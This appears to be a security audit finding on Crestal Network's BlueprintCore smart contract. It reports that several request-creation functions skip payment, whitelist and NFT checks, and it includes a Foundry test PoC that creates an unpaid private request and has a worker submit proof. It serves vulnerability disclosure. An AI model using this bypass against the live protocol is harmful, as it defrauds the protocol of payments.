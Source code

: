 Wild Champagne Griffin

High

# Users can create as many requests as they want and assign workers to it OR even leave it for workers to pick and generated proofs submitted, without paying a dime.

### Summary

createProjectIDAndDeploymentRequest(), createProjectIDAndDeploymentRequestWithSig()

The two functions above allows the creation and deployment of requests without payment of ERC20 or being whitelisted or owing an NFT.

These requests can be picked up by workers, and have workers submit proofs for them.

Worst off is that createProjectIDAndPrivateDeploymentRequest() can create a request, assign a private worker and then have the worker submit proof for such request. The only downside is that such request can't be reset after proofs have been generated

### Root Cause

In createProjectIDAndDeploymentRequest(), createProjectIDAndDeploymentRequestWithSig(), createProjectIDAndPrivateDeploymentRequest()

The above functions uses internal createCommonProjectIDAndDeploymentRequest() to create a projectId and deploy a request. This internal function likewise uses deploymentRequest() to deploy request, where request status is set, deployWorkerAddr is set (for createProjectIDAndPrivateDeploymentRequest())  and request is save to contract state [https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L315-L323](url)

Through out this process, no payment is charged, no whitelisted check is made for the userAddr, no nft ownership check is made.

This allows creation of requests with private worker, creation of request with status (Status.Issued) for workers to pick up. These workers can then submit proofs for such request deployment.

The only downside is that updateWorkerDeploymentConfigCommon() can't be used on such request(This won't be possible cos such request wasn't created though createAgent() which sets ownership for a request - [https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L452](url) for nftOwners AND https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L472 for payment using ERC20 tokens)

### Internal Pre-conditions

1. No condition is needed.

### External Pre-conditions

None

### Attack Path

All what user has to do, is that they don't have to go through the route of any function that calls createAgent().

### Impact

The protocol suffers huge losses, as this allows creation and deployment of requests and proofs submitted without payment, owing NFT or being whitelisted.

### Tools used
Manual Review and Foundry

### PoC

```solidity
       
       function test_createRequestAndSubmitProofWithoutPayingToken() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";

        // Generate the signature
        (bytes memory signature, address signerAddress) = generateSignature(projectId, base64Proposal, serverURL);

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // set zero cost for create agents, use any number less than 0
        uint256 validTokenAmount = 100 * 10 ** 18;
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

        //user creates project and deploy with private worker
        vm.startPrank(address(1));

        // Create agent with token
        bytes32 requestId = blueprint.createProjectIDAndPrivateDeploymentRequest(
            projectId, base64Proposal, address(2), serverURL
        );
        vm.stopPrank();

        vm.startPrank(address(2));
        //proof
        string memory proof = "is_proof";
        // Worker submits proof for deployment
        blueprint.submitProofOfDeployment(
            projectId, requestId, proof
        );
        vm.stopPrank();

        assertEq(blueprint.getDeploymentProof(requestId), proof);
    }
```

Add the above function to BlueprintV5.t.sol, and run forge test test/BlueprintV5.t.sol

The above test will pass, showing that if users don't want to reset a requestId, they can create one, worker works and submit proof of deployment, without any payment or NFT check.

### Mitigation

The protocol team should have the same checks for payment cost OR if caller has an NFT (which can be set to used when these methods are used) OR caller is whitelisted.